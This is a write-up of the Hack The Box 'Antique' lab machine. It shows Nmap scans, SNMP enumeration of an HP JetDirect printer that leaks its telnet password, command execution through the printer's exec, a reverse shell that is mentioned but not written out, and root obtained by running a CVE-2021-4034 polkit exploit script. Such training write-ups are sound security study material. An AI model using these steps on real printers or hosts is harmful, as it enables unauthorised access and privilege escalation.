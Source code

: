 ```yaml
---
layout: post
title: "Antique"
date: 2023-12-26 18:58:00 +0100
categories: [writeup, easy]
tags: [machine]
---
```


<p>
    <a href="https://app.hackthebox.com/machines/400">
        <img src="https://labs.hackthebox.com/storage/avatars/b966fca9d30da209a90dffad5f390acf.png" width="500"
        alt="Descripción">
    </a>
</p>

# Antique Writeup

## Table of Contents

1. [Service Enumeration](#1-recon)
2. [SNMP Enum](#2-snmp-enum)
3. [Privilege Escalation](#3-privilege-escalation)

## 1. Recon

As usual, we start with an Nmap scan to identify open ports and services.

```bash
oxdf@hacky$ nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.11.107
Starting Nmap 7.80 ( https://nmap.org ) at 2022-05-02 00:47 UTC
Nmap scan report for 10.10.11.107
Host is up (0.097s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE
23/tcp open  telnet

Nmap done: 1 IP address (1 host up) scanned in 8.00 seconds
oxdf@hacky$ nmap -p 23 -sCV -oA scans/nmap-tcpscripts 10.10.11.107
Starting Nmap 7.80 ( https://nmap.org ) at 2022-05-02 00:50 UTC
Nmap scan report for 10.10.11.107
Host is up (0.090s latency).

PORT   STATE SERVICE VERSION
23/tcp open  telnet?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns, tn3270: 
|     JetDirect
|     Password:
|   NULL: 
|_    JetDirect
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port23-TCP:V=7.80%I=7%D=5/2%Time=626F2AC3%P=x86_64-pc-linux-gnu%r(NULL,
SF:F,"\nHP\x20JetDirect\n\n")%r(GenericLines,19,"\nHP\x20JetDirect\n\nPass
...[snip]...
SF:rect\n\nPassword:\x20");

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 166.19 seconds
```

As we only have port 23 open, we can try to connect to it using `telnet`.

```bash 
oxdf@hacky$ telnet 10.10.11.107
Trying 10.10.11.107...
Connected to 10.10.11.107.
Escape character is '^]'.

HP JetDirect

Password:
```

We try to log with some common credentials, but they dont work, so lets try to search for udp ports.

```bash
oxdf@hacky$ sudo nmap -sU --top-ports 10 -sV 10.10.11.107
Starting Nmap 7.80 ( https://nmap.org ) at 2022-05-02 10:22 UTC
Nmap scan report for 10.10.11.107
Host is up (0.090s latency).

PORT     STATE  SERVICE      VERSION
53/udp   closed domain
67/udp   closed dhcps
123/udp  closed ntp
135/udp  closed msrpc
137/udp  closed netbios-ns
138/udp  closed netbios-dgm
161/udp  open   snmp         SNMPv1 server (public)
445/udp  closed microsoft-ds
631/udp  closed ipp
1434/udp closed ms-sql-m

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.35 seconds
```

We can see that we have an SNMP service running on port 161, so we can try to enumerate it.

## 2. SNMP Enum

```bash 
oxdf@hacky$ snmpwalk -v 2c -c public 10.10.11.107
iso.3.6.1.2.1 = STRING: "HTB Printer"
```

This is a printer, there are lots of blogs about printers and how to exploit them, so we can try to search for some exploits. [Hacking Network Printers](https://www.irongeek.com/i.php?page=security/networkprinterhacking)

```bash
oxdf@hacky$ snmpwalk -v 2c -c public 10.10.11.107 .1.3.6.1.4.1.11.2.3.9.1.1.13.0
iso.3.6.1.4.1.11.2.3.9.1.1.13.0 = BITS: 50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135 
```

Now, just convert the hex to ascii and use this password to login to the telnet service.

```bash
oxdf@hacky$ telnet 10.10.11.107
Trying 10.10.11.107...
Connected to 10.10.11.107.
Escape character is '^]'.

HP JetDirect

Password: xxxxxxxx
```

Inside the printer shell, we can use exec to run commands in the same way as a bash shell.

```bash
> exec id
uid=7(lp) gid=7(lp) groups=7(lp),19(lpadmin)
```

So we just set up a reverse shell to get the user flag.

We are logged in as **lp**, which can read the flag.

## 3. Privilege Escalation

If we run Linpeas, we can see that this kernel version is vunerable to polkit exploit.

```bash
lp@antique:/dev/shm$ dpkg -s policykit-1
Package: policykit-1
Status: install ok installed
Priority: optional
Section: admin
Installed-Size: 560
Maintainer: Ubuntu Developers <ubuntu-devel-discuss@lists.ubuntu.com>
Architecture: amd64
Multi-Arch: foreign
Version: 0.105-26ubuntu1.1
Depends: dbus, libpam-systemd, libc6 (>= 2.7), libexpat1 (>= 2.0.1), libglib2.0-0 (>= 2.37.3), libpam0g (>= 0.99.7.1), libpolkit-agent-1-0 (= 0.105-26ubuntu1.1), libpolkit-gobject-1-0 (= 0.105-26ubuntu1.1), libsystemd0 (>= 213)
Conffiles:
 /etc/pam.d/polkit-1 7c794427f656539b0d4659b030904fe0
 /etc/polkit-1/localauthority.conf.d/50-localauthority.conf 2adb9d174807b0a3521fabf03792fbc8
 /etc/polkit-1/localauthority.conf.d/51-ubuntu-admin.conf c4dbd2117c52f367f1e8b8c229686b10
Description: framework for managing administrative policies and privileges
 PolicyKit is an application-level toolkit for defining and handling the policy
 that allows unprivileged processes to speak to privileged processes.
 .
 It is a framework for centralizing the decision making process with respect to
 granting access to privileged operations for unprivileged (desktop)
 applications.
Homepage: https://www.freedesktop.org/wiki/Software/polkit/
Original-Maintainer: Utopia Maintenance Team <pkg-utopia-maintainers@lists.alioth.debian.org>
```

This can be exploited with [CVE-2021-4034](https://github.com/joeammond/CVE-2021-4034), so we can use this exploit to get root.

```bash
lp@antique:/dev/shm$ python3 CVE-2021-4034.py
[+] Creating shared library for exploit code.
[+] Calling execve()
# id
uid=0(root) gid=7(lp) groups=7(lp),19(lpadmin)
```

Done!!